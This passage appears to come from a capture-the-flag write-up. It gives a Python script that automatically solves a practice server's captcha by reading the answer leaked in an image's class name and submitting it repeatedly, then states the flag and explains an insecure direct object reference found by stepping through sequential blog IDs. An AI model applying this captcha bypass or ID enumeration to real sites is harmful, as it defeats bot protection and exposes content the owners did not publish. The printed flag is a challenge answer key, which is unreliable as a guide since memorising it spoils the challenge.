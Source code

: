 ```python
from bs4 import BeautifulSoup
import requests

'''
Use bs4 and requests to solve some x
captcha's by extracting the capture
data leaked in the img class name.
'''


TARGET_URL = 'http://ctfo.2pmc.net:10022/'
sesh = requests.Session()


def main(count=0):

	print("[>>] Scraping target DOM")
	target_html = sesh.get(TARGET_URL).text

	soup = BeautifulSoup(target_html, "html.parser")
	dom_target = soup.find("img").get('class')
	print(f"[>>] extracted target {dom_target}")
	secret = dom_target[0]
	print(f"[>>] sending {secret}")
	# send back captcha
	res = sesh.post(
			TARGET_URL,
			data = {
				"secret": secret,
				"submit": "verify"
			}
	)

	print(f"[>>] res {res.text}")
	if (count == 70):
		return

	count += 1
	main(count)


if __name__ == '__main__':
	main()
```

> `flag{N0_n33d_f0r_0CR}`

### 0x44 Door

1. Go to a blog
2. Url has a sequential value to reference the blog IE `/blog/3`
3. The other blogs go up from `3` and the lowest one with a link is blog `2`
4. Navigate to `/1`
